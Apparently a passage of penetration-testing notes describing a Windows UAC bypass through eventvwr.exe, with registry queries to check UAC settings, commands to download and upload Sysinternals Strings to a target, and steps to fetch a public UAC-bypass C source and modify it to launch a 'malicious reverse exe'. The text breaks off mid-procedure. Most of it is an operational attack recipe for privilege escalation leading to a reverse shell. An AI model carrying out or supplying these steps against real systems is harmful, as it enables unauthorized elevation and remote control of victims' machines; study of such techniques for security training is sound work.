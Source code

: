#### Bypass UAC eventvwr

https://ivanitlearning.wordpress.com/2019/07/07/bypassing-default-uac-settings-manually/

Confirm UAC is on:
```batch - windows
reg query HKLM\Software\Microsoft\Windows\CurrentVersion\Policies\System
```

```powershell - windows
Get-ItemProperty HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System
```

Now notice the three highlighted keys above and their values.

1.  `EnableLUA` tells us whether UAC is enabled. If 0 we don’t need to bypass it at all can just PsExec to SYSTEM. If it’s 1 however, then check the other 2 keys.
2.  `ConsentPromptBehaviorAdmin` can theoretically take on [6 possible values](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-gpsb/341747f5-6b5d-4d30-85fc-fa1cc04038d4) (readable explanation [here](https://www.tenforums.com/tutorials/112621-change-uac-prompt-behavior-administrators-windows.html)), but from configuring the UAC slider in Windows settings it takes on either 0, 2 or 5.
3.  `PromptOnSecureDesktop` is binary, either 0 or 1.

==ConsentPromptBehaviorAdmin  : 5==
.....
==EnableLUA                   : 1==
.....
==PromptOnSecureDesktop       : 1==
.....

#### Method 1
Next, confirm the eventvwr.exe exists:
```batch - target
where /r C:\windows eventvwr.exe
```

```bash - kali
wget https://download.sysinternals.com/files/Strings.zip
```

Extract the Strings zip, upload to target.

```batch - target
strings64.exe -accepteula C:\Windows\System32\eventvwr.exe | findstr /i autoelevate
```

`strings64.exe -accepteula C:\Windows\System32\eventvwr.exe | findstr /i autoelevate`
`<autoElevate>true</autoElevate>`

```bash - kali
wget https://raw.githubusercontent.com/turbo/zero2hero/master/main.c
```

Uncomment block 66 - 69, changing "foobar.exe" to  your malicious reverse exe:

	GetCurrentDirectory(MAX_PATH, curPath);
	strcat(curPath, "\\reverse64.exe");
